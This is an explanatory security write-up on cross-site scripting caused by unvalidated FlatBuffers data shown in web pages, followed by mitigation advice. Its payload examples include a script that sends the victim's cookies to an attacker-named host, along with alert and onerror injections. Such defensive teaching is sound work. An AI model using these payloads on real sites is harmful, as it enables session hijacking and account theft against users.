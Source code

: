 ## Deep Dive Analysis: XSS via FlatBuffers Implementation Weakness

This analysis dissects the provided attack tree path, focusing on the vulnerabilities introduced by improper handling of FlatBuffers within the application. We will examine each stage, highlighting the specific risks and implications for a development team using the Google FlatBuffers library.

**ATTACK TREE PATH:**

**Exploit Implementation Weaknesses in Application's FlatBuffers Usage -> Lack of Input Validation on FlatBuffer Content -> Process Untrusted Data Without Sanitization -> Inject Malicious Payloads within Data Fields -> Cross-Site Scripting (XSS) if data is used in web context**

**Detailed Breakdown of Each Stage:**

**1. Exploit Implementation Weaknesses in Application's FlatBuffers Usage:**

* **Description:** This is the overarching starting point. It acknowledges that the vulnerability doesn't lie within the FlatBuffers library itself (which is generally considered secure for its intended purpose of efficient serialization), but rather in how the *application developers* have implemented and integrated it.
* **Specific Weaknesses:** This stage encompasses a range of potential missteps, including:
    * **Misunderstanding FlatBuffers' Role:** Developers might mistakenly believe FlatBuffers provide inherent security or input validation, which is not their primary function. FlatBuffers focus on efficient data access and serialization, not security.
    * **Ignoring Security Best Practices:** Developers might overlook standard security practices like input validation and output encoding when dealing with data received via FlatBuffers.
    * **Over-reliance on Schema:** While the FlatBuffers schema defines the structure and types, it doesn't automatically prevent malicious content within those types (e.g., a string field can still contain malicious JavaScript).
    * **Insufficient Testing:** Lack of thorough testing, particularly with potentially malicious inputs, can leave these vulnerabilities undetected.
* **Impact:** This stage sets the stage for subsequent vulnerabilities. Poor implementation creates opportunities for attackers to manipulate the data flow.

**2. Lack of Input Validation on FlatBuffer Content:**

* **Description:** This is the critical vulnerability that directly enables the XSS attack. The application receives a FlatBuffer message and proceeds to process its content without verifying the integrity and safety of the data within the defined fields.
* **Specific Issues:**
    * **Absence of Validation Logic:** The application code lacks explicit checks to ensure the data within the FlatBuffer conforms to expected values and formats. This includes checks for:
        * **Data Type and Format:** While FlatBuffers enforce basic type constraints defined in the schema, they don't prevent arbitrary strings or numbers within those constraints.
        * **Content Restrictions:** No checks are in place to prevent the inclusion of potentially harmful characters or code snippets within string fields.
        * **Length Limitations:**  While the schema can define string lengths, the application might not enforce these limits, potentially leading to buffer overflows in other parts of the system (though less relevant to the XSS scenario).
    * **Implicit Trust in Data Source:** The application might implicitly trust the source of the FlatBuffer message, assuming it's always safe. This is a dangerous assumption, especially when dealing with external or untrusted sources.
* **Impact:** This lack of validation allows attackers to inject arbitrary data into the FlatBuffer message, paving the way for malicious payloads.

**3. Process Untrusted Data Without Sanitization:**

* **Description:**  Building upon the lack of validation, this stage highlights the failure to sanitize the data *after* it has been extracted from the FlatBuffer. Even if some basic validation were present (which is assumed to be missing in the previous stage), this stage emphasizes the absence of measures to neutralize potentially harmful content.
* **Specific Issues:**
    * **Direct Usage of Data:** The application directly uses the data extracted from the FlatBuffer fields without any encoding or escaping.
    * **Lack of Contextual Awareness:** The application doesn't consider the context in which the data will be used. For example, if a string field is intended to be displayed on a web page, it should be properly HTML-encoded to prevent script execution.
    * **Ignoring Potential Threats:** Developers might not be fully aware of the various ways malicious data can be injected and the potential consequences.
* **Impact:** This stage is crucial for the XSS attack. By not sanitizing the data, the application inadvertently allows malicious scripts to be introduced into the web context.

**4. Inject Malicious Payloads within Data Fields:**

* **Description:** This is the attacker's action. Taking advantage of the lack of validation, the attacker crafts a FlatBuffer message containing malicious JavaScript code within a field that will eventually be displayed in a web context.
* **Specific Examples of Payloads:**
    * `<script>alert('XSS Vulnerability!');</script>`: A simple payload to demonstrate the vulnerability.
    * `<script>document.location='https://attacker.com/steal?cookie='+document.cookie;</script>`: A payload to steal user cookies.
    * `<img src="x" onerror="/* malicious code here */">`: Utilizing HTML event handlers for script execution.
    * More sophisticated payloads involving DOM manipulation, API calls, etc.
* **Mechanism:** The attacker manipulates the data sent to the application, ensuring the malicious script is embedded within a field that will be processed and rendered in the user's browser. This could involve intercepting and modifying existing FlatBuffer messages or crafting entirely new ones.
* **Impact:** This stage successfully injects the malicious code into the application's data flow.

**5. Cross-Site Scripting (XSS) if data is used in web context:**

* **Description:** This is the final stage where the injected malicious JavaScript code is executed within the user's browser when the application renders the unsanitized data on a web page.
* **Specific Scenarios:**
    * **Displaying User-Provided Content:** If the FlatBuffer contains user-generated content (e.g., a username, comment, or message) that is displayed without encoding, the injected script will execute.
    * **Dynamic Content Generation:** If the application uses data from the FlatBuffer to dynamically construct HTML elements, the malicious script can be embedded within these elements.
    * **API Responses:** If the FlatBuffer data is part of an API response that is processed by client-side JavaScript, the injected script can be executed within the client-side context.
* **Impact:** The successful execution of the XSS payload can have severe consequences:
    * **Session Hijacking:** Stealing cookies and session tokens allows the attacker to impersonate the user.
    * **Account Takeover:** Performing actions on behalf of the user, potentially changing passwords or making unauthorized transactions.
    * **Data Theft:** Accessing sensitive information displayed on the page.
    * **Malware Distribution:** Redirecting the user to malicious websites.
    * **Defacement:** Altering the appearance of the web page.

**Mitigation Strategies and Best Practices:**

To prevent this type of attack, the development team should implement the following countermeasures:

* **Robust Input Validation:**
    * **Schema Enforcement:** While FlatBuffers enforce basic types, implement additional validation logic to ensure data conforms to expected patterns and constraints.
    * **Whitelisting:** Define allowed characters and formats for string fields.
    * **Range Checks:** Validate numerical values against expected ranges.
    * **Regular Expressions:** Use regular expressions to validate complex string formats (e.g., email addresses, URLs).
    * **Context-Specific Validation:** Validate data based on its intended use.

* **Output Encoding/Escaping:**
    * **HTML Encoding:** Encode data before displaying it in HTML to prevent the browser from interpreting it as code. Use appropriate encoding functions provided by the framework or language (e.g., `htmlspecialchars` in PHP, escaping functions in JavaScript frameworks).
    * **JavaScript Encoding:** When injecting data into JavaScript code, use appropriate escaping techniques.
    * **URL Encoding:** Encode data before including it in URLs.

* **Content Security Policy (CSP):**
    * Implement a strong CSP to control the sources from which the browser is allowed to load resources. This can help mitigate the impact of XSS attacks by preventing the execution of inline scripts or scripts from untrusted sources.

* **Security Headers:**
    * Utilize security headers like `X-Frame-Options`, `X-Content-Type-Options`, and `Referrer-Policy` to further enhance the application's security posture.

* **Regular Security Audits and Penetration Testing:**
    * Conduct regular security assessments to identify potential vulnerabilities and ensure the effectiveness of implemented security measures.

* **Developer Training and Awareness:**
    * Educate developers about common web security vulnerabilities, including XSS, and best practices for secure coding.

* **Secure Development Lifecycle (SDLC):**
    * Integrate security considerations into every stage of the development process, from design to deployment.

**Specific Considerations for FlatBuffers:**

* **Don't Rely on FlatBuffers for Security:** Understand that FlatBuffers are primarily for efficient data serialization and access, not security.
* **Validate Deserialized Data:** Always validate the data after it has been deserialized from the FlatBuffer.
* **Consider Using a Validation Library:** Explore using existing validation libraries in your chosen programming language to streamline the validation process.

**Conclusion:**

The attack path described highlights a critical vulnerability stemming from a lack of proper input validation and output sanitization when using FlatBuffers. While FlatBuffers provide an efficient way to structure and access data, they do not inherently protect against malicious content. The responsibility for securing the application lies with the development team, who must implement robust validation and sanitization mechanisms to prevent attacks like XSS. By understanding the potential risks and implementing the recommended mitigation strategies, developers can ensure the secure and reliable operation of their applications using FlatBuffers.
